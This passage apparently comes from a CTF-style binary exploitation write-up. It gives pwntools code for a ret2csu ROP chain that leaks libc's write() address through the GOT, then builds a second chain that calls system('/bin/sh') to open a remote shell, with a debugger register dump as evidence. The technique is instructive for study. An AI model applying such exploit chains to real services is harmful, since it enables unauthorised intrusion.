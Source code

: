 ```py
# ROP into GOT
r.raw(p64(0x40124a))        # CSU1
r.raw(p64(0x0))             # RBX: 0x0 to skip doing RBX*8
r.raw(p64(0x1))             # RBP: Padding
r.raw(p64(0x1))             # R12/RDI: Write to STDOUT
r.raw(p64(e.got['write']))  # R13/RSI: Buffer to print (LibC address)
r.raw(p64(0x8))             # R14/RDX: Number of bytes to write()
r.raw(p64(e.got['write']))  # R15: Points to write() for our call mismatch
r.raw(p64(0x401230))        # CSU2
r.raw(cyclic(56))           # Padding for pops of CSU1 after CSU2 completes
r.call(p64(e.sym['main']))  # Loop back to main()

p.sendlineafter(b'>', bytes(r))
```

This looks great and we can step through our exploit and see our previous `Invalid address 0xc308c4` when doing the `call` in CSU2 no longer happens. Instead, we can see this as our `call` when we execute it:

```x86asm
 ► 0x401239 <__libc_csu_init+73>     call   qword ptr [r15 + rbx*8]       <write>
        rdi: 0x1
        rsi: 0x404018 (write@got[plt]) —▸ 0x7fe401c9c060 (write) ◂— endbr64
        rdx: 0x8
        rcx: 0x7fe401c9bfd2 (read+18) ◂— cmp rax, -0x1000 /* 'H=' */
```

This is correct as I'm calling `write()` and we're printing the correct data to the correct spot for the right amount of characters. This obviously required changing up my leak and parsing but the rest of the exploit stayed looking like this:

```py
# Get LibC leak and Parse
stuff = p.recvuntil(b'>')
write_val = u64(stuff[1:7] + b'\x00' * (8-len(stuff[:6])))
libc.address = write_val - libc.sym["write"]
r_libc = ROP(libc)

# ROP using LibC
chain = cyclic(520)                                     # Overflow
chain += p64(r_libc.find_gadget(['ret'])[0])            # Realign stack
chain += p64(r_libc.find_gadget(['pop rdi', 'ret'])[0]) # Free RDI
chain += p64(next(libc.search(b'/bin/sh')))             # Add in our data
chain += p64(libc.sym['system'])                        # Call system()
p.sendline(chain)

# Shell!?
p.interactive()
```

We changed our leak to recieve only the 6 bytes we want for our controlled LibC leak. We know this is the address of `write()` in LibC so we can use pwntools to automate grabbing the offset and computing the base address. With this all set, we use the same chain to call `system("/bin/sh")` and now we pop a shell remotely!

